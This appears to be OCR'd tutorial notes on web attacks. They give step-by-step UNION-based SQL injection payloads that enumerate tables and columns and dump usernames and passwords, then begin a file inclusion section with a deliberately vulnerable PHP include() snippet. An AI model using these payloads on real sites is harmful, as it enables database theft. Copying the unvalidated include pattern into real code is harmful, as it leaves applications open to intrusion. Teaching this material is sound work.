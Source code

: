 o	Find the number of columns in the database.
	ORDER BY, increase the numbers until it shows error,
•	?artist=1 order by 1--
•	?artist=1 order by 2--
•	?artist=1 order by 3--

o	Find the table name in the columns.
	UNION SELECT
	?artist=-1 union select 1,2,group_concat(table_name) from information_schema.tables where table_schema=database()--
•	The statement is composed of several parts:
•	"?artist=1" - This is the original query that the web application is expected to execute. It is likely that the web application is using the "artist" parameter in a SELECT statement to retrieve data from a specific table.
•	"-1" - This value is used to replace the original query's value and trick the query to return the result of the new query. alternate (-1 | 1’ | -1’)
•	"union select" - This keyword is used to combine the results of the original query with the results of a new query.
•	"1,2" - These values are used to match the number of columns in the original query. Since the original query is likely to return a single column, these values are used to match the number of columns in the original query.
•	"group_concat(table_name)" - This function retrieves the names of all the tables in the targeted database. It replace 3rd column.
•	"from information_schema.tables" - This part of the query is used to specify the source of the data. The information_schema is a database that contains metadata about all the tables, columns, and other database objects.
•	"where table_schema=database()" - This part of the query is used to filter the results to only show tables from the current database.
•	"--" - This is used to comment out the rest of the query and prevent any additional statements from being executed.

o	Find Column name from table name (ex. users)
	?artist=-1 union select 1,2,group_concat(column_name) from information_schema.columns where table_name="users"--
•	table_name  column_name
•	information_schema.tables  information_schema.columns
•	table_schema=database()  table_name="users"

o	Find data from the found columns (ex. uname)
	artist=-1 union select 1,2,group_concat(uname) from users--
	artist=-1 union select 1,2,group_concat(uname,pass) from users--


 
*ATTACK*

File Inclusion / Path/Directory Traversal
The File Inclusion vulnerability allows an attacker to include a file, usually exploiting a “dynamic file inclusion” mechanisms implemented in the target application. The vulnerability occurs due to the use of user-supplied input without proper validation.

URL:
example.com/file/?page=login.php

CODE:
<?php
$page = $_GET[‘page’];
include($page);
